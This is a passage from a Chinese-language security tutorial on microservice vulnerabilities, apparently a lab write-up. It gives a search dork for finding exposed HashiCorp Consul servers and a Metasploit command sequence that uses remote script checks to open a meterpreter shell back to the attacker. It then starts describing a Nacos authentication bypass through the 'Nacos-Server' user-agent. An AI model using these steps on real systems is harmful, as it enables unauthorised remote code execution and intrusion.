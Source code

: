 访问：http://192.168.70.14:8500/v1/agent/self

启用了 `EnableRemoteScriptChecks: true`

![image-20240926162100132](https://image.201068.xyz/assets/37.微服务/image-20240926162100132.png)

### google语法搜索

```python
"consul" && product="HashiCorp"
```

## 漏洞验证

### MSF

使用 MSF 进行测试，简要过程如下：

```python
msfconsole
search Hashicorp
use exploit/multi/misc/consul_service_exec
show options
set rhosts 192.168.70.14
set lhost 192.168.70.4
run
```

![image-20240926164550292](https://image.201068.xyz/assets/37.微服务/image-20240926164550292.png)

![image-20240926164512817](https://image.201068.xyz/assets/37.微服务/image-20240926164512817.png)

![image-20240926164445635](https://image.201068.xyz/assets/37.微服务/image-20240926164445635.png)

可以看到成功创建 `meterpreter`。



# Nacos组件漏洞

## Nacos简介

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务,发现配置管理和服务管理平台。

致力于帮助发现配置和管理微服务。

Nacos 提供了一组简单易用的特性集，可以快速实现动态服务,发现服务,配置服务,元数据及流量管理。

github：https://github.com/alibaba/nacos/

## 漏洞详情

该漏洞发生在nacos在进行认证授权操作时，会判断请求的`user-agent`是否为”`Nacos-Server`”，如果是的话则不进行任何认证。
